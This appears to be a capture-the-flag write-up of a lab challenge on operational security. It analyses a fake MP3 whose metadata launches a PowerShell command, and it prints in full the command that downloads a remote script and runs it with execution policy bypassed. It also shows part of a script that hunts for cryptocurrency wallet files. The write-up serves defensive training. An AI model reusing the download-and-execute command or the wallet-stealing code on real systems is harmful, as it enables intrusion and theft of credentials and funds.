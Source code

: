 # Day 1: OPSEC

## Learning Objectives
- Investigate malicious link files.
- Understand OPSEC principles and common mistakes.
- Learn how to track digital identities in cyber investigations.

---

## Introduction
Operational Security (OPSEC) refers to tactics used to protect sensitive information from adversaries. In this challenge, we investigate a suspicious YouTube-to-MP3 converter website shared among SOC-mas organizers after reports of malicious behavior.

---

## Investigating the Website

### Risks of YouTube-to-MP3 Converters
These websites often pose significant risks, such as:
- **Malvertising:** Exploiting vulnerabilities via malicious ads.
- **Phishing Scams:** Tricking users into revealing sensitive information.
- **Bundled Malware:** Distributing malware disguised as legitimate files.

---

## File Analysis

### Extracted Files
After downloading from the website, two files were extracted: `song.mp3` and `somg.mp3`. The unusual filename `somg.mp3` raised suspicion.

#### Analyzing `song.mp3`
```bash
file song.mp3
```
Output:
```
Audio file with ID3 version 2.3.0...
```
This file appears to be a legitimate MP3 audio file.

#### Analyzing `somg.mp3`
```bash
file somg.mp3
```
Output shows suspicious metadata indicating a PowerShell command embedded within the file.

---

## Metadata Analysis with Exiftool
Using `exiftool`, we uncover additional details about `somg.mp3`:

```bash
exiftool somg.mp3
```

Key findings include:

- **Relative Path:** `..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
  - *Why it’s suspicious:* The relative path points to the PowerShell executable, which is often used by attackers to execute malicious scripts or commands on a victim's system. This suggests that the file is designed to invoke PowerShell as part of its payload.

- **Command Line Arguments:**
  ```plaintext
  -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
  ```
  - *Why it’s suspicious:* 
    - **`-ep Bypass`**: Disables PowerShell's execution policy, allowing potentially unsafe scripts to run.
    - **`-nop`**: Suppresses warnings, making detection harder.
    - **`(New-Object Net.WebClient).DownloadFile(...)`**: Downloads a malicious script (`IS.ps1`) from a remote server.
    - **`iex (Get-Content ...)`**: Executes the downloaded script in memory without saving it to disk, which is a common evasion technique used by attackers.
    
    This behavior indicates a Command-and-Control (C2) operation where stolen data could be exfiltrated or additional payloads executed remotely.

- **Machine ID:** `win-base-2019`
  - *Why it’s relevant:* This metadata reveals the operating system environment in which the malicious file was created or tested. It provides insight into the attacker's setup and can be used for attribution.

These metadata fields collectively indicate that `somg.mp3` is not a legitimate file but instead a malicious payload designed to execute a PowerShell script, potentially compromising the victim's system.

---

## Malicious PowerShell Script
The script attempts to steal sensitive information such as cryptocurrency wallets and browser credentials. Below is a snippet of the malicious script:

```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}
```

The script is designed to:
1. Print ASCII art for attribution.
2. Search for cryptocurrency wallet files and browser credentials.
3. Send stolen data to a Command-and-Control (C2) server.

---

## OPSEC Mistakes
This case highlights several common OPSEC failures by attackers:

1. **Reusing Identifiable Metadata**:
   - Metadata in `somg.mp3` revealed critical details such as machine ID (`win-base-2019`) and working directory (`C:\Windows\System32\WindowsPowerShell\v1.0`). These details could be used for attribution or tracking back to the attacker’s environment.

2. **Posting Sensitive Details Publicly**:
   - The attacker left traces on GitHub, exposing their identity ("M.M.") and intentions. For example, their GitHub repository hosted the malicious script (`IS.ps1`) used in this attack.

3. **Failing to Use Anonymization Tools**:
   - Lack of proper anonymization, such as VPNs or proxies, allowed investigators to trace their activities more easily.

---

## Questions & Answers

1. **Who is the author of `song.mp3`?**
   - Tyler Ramsbey

2. **What is the URL of the C2 server?**
   - http://papash3ll.thm/data  
     ![C2 Server URL](images/c2-server-url.png)  
     *Figure 1: Output showing the C2 server URL from metadata analysis.*

3. **Who is M.M.?**
   - Mayor Malware

4. **What is the number of commits on the GitHub repo where the issue was raised?**
   - 1  
     ![GitHub Profile Screenshot](images/github-commits.png)  
     *Figure 2: Output shows the number of commits (+1).*

---

## Conclusion
This challenge demonstrates how poor OPSEC practices can expose attackers' identities and operations. By analyzing suspicious files and investigating metadata, cybersecurity professionals can uncover critical evidence in cyber investigations.

---